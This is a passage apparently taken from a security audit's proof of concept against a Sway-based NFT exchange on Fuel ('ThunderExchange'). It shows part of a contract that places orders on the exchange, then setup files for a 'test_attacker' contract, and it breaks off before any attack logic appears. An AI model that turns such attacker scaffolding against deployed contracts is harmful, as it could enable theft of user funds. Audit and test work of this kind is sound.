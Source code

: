 ```rs
        exchange.place_order(order);
        // pool.withdraw(asset, amount);
    }

    #[storage(read)]
    fn place_sell_order(order: MakerOrderInput) {
        let exchange_addr = storage.exchange.read().unwrap().bits();
        let exchange = abi(ThunderExchange, exchange_addr);

        exchange.place_order{ asset_id: AssetId::new(order.collection, order.token_id).bits(), coins: order.amount }(order); // user places an innocent order
    }
}
```

### test_attacker folder
In the `test_attacker` folder.
- Add the below in the `forc.toml`:
```rs
[project]
authors = ["Blockian"]
entry = "main.sw"
license = "Apache-2.0"
name = "test_attacker"

[dependencies]
interfaces = { path = "../interfaces" }
libraries = { path = "../libraries" }
standards = { git = "https://github.com/FuelLabs/sway-standards", tag = "v0.4.4" }
```

- Add the below in the `main.sw`:
```rs
contract;

use std::{
    address::Address,
    auth::*,
    call_frames::*,
    constants::*,
    context::*,
    contract_id::ContractId,
    hash::Hash,
    logging::log,
    identity::Identity,
    revert::*,
    asset::*,
    storage::storage_map::*,
};

use interfaces::{
    asset_manager_interface::*,
    pool_interface::*,
    test_attacker_interface::*,
    thunder_exchange_interface::{ThunderExchange},
};

use libraries::{
    msg_sender_address::*,
    constants::*,
    order_types::*,
};

storage {
```